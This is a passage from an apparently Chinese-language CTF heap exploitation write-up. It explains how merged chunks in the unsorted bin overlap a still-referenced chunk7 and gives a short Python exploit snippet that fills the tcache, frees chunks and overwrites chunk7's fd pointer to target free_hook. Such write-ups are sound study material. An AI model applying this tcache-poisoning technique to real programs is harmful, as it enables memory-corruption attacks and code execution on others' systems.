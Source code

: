 [![](assets/1701606615-9bc90de2ced3d82c4288d816f239ecc3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213050-31306870-83bb-1.png)  
可以看到 unsortedbin 中已经合并了  
这时候 chunk7 还保留了 chunk 指针，然后我们在合并的 unsorted bin 中申请 chunk，这时候 chunk7 和申请的 chunk 有重叠的部分，我们就可以去修改 chunk7 来改 fd 了

```plain
for i in range(7):
    add(i,0xf8,'')

add(9,0xf8,'')

delete(1)
delete(9)

pl = p64(0)+p64(0x100)+p64(free_hook)

edit(7,pl)
```

[![](assets/1701606615-fff09e87296afbe7ee5709f2a9b511f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213111-3d9d2152-83bb-1.png)
